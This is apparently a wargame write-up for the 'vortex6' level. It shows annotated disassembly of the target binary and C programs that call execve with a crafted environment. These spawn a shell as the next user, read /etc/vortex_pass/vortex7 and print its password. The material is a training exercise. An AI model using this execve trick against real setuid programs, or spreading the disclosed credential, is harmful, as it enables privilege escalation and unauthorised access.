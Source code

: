 Dump of assembler code for function main:
```assembly
   0x0804849f <+0>:     push   ebp
   0x080484a0 <+1>:     mov    ebp,esp
   0x080484a2 <+3>:     and    esp,0xfffffff0
   0x080484a5 <+6>:     sub    esp,0x10
   0x080484a8 <+9>:     mov    eax,DWORD PTR [ebp+0x10]
   0x080484ab <+12>:    mov    eax,DWORD PTR [eax]		#eax = env[0]
   0x080484ad <+14>:    test   eax,eax				#if env[0] == 0
   0x080484af <+16>:    je     0x80484be <main+31>		#jmp
   0x080484b1 <+18>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484b4 <+21>:    mov    eax,DWORD PTR [eax]
   0x080484b6 <+23>:    mov    DWORD PTR [esp],eax
   0x080484b9 <+26>:    call   0x804847d <restart>
   0x080484be <+31>:    mov    eax,DWORD PTR [ebp+0x10]		#=env[0]
   0x080484c1 <+34>:    add    eax,0xc
   0x080484c4 <+37>:    mov    eax,DWORD PTR [eax]		#=env[something]
   0x080484c6 <+39>:    mov    DWORD PTR [esp],eax
   0x080484c9 <+42>:    call   0x8048330 <printf@plt>
   0x080484ce <+47>:    mov    DWORD PTR [esp],0x7325
   0x080484d5 <+54>:    call   0x8048340 <_exit@plt>
```
Dump of assembler code for function restart:
```assembly
   0x0804847d <+0>:     push   ebp
   0x0804847e <+1>:     mov    ebp,esp
   0x08048480 <+3>:     sub    esp,0x18
   0x08048483 <+6>:     mov    DWORD PTR [esp+0x8],0x0
   0x0804848b <+14>:    mov    eax,DWORD PTR [ebp+0x8]
   0x0804848e <+17>:    mov    DWORD PTR [esp+0x4],eax
   0x08048492 <+21>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048495 <+24>:    mov    DWORD PTR [esp],eax
   0x08048498 <+27>:    call   0x8048350 <execlp@plt>		#execute vortex6 again with env[0] (infinite loop)
   0x0804849d <+32>:    leave  
   0x0804849e <+33>:    ret
```
we need the env[0] to be 0, so we'll use a c file:
```c
##include<stdio.h>                                                                                             
#include<stdlib.h>                                                                                            
#include<unistd.h>                                                                                            
                                                                                                              
int main(int argc, char* argv[]) {                                                                                                                
        char* env[] = {0x0, 				"AAAA"};                                                                              
        execve("/vortex/vortex6", env,env);
	perror("execve");
        return 0;                                                   
}
```
running it we get:  
__libc_start_main(0x804849f, 0, 0xffffdf14, 0x80484e0 <unfinished ...>
printf("!"#$%&'()*+,-./0123456789:;<=>?@"... <no return ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

not exactly what we wanted...  
lets see what if we indeed put something else in env[0]...
lets try /bin/sh...
```c
##include<stdio.h>                                                                                             
#include<stdlib.h>                                                                                            
#include<unistd.h>                                                                                            
                                                                                                              
int main(int argc, char* argv[]) {                                                                                                                
        char* env[] = {"/bin/sh", 				"AAAA"};                                                                              
        execve("/vortex/vortex6", env,env);
	perror("execve");
        return 0;                                                   
}
```
it worked!

$ whoami
vortex7
$ cat /etc/vortex_pass/vortex7
Y52jxHtt/



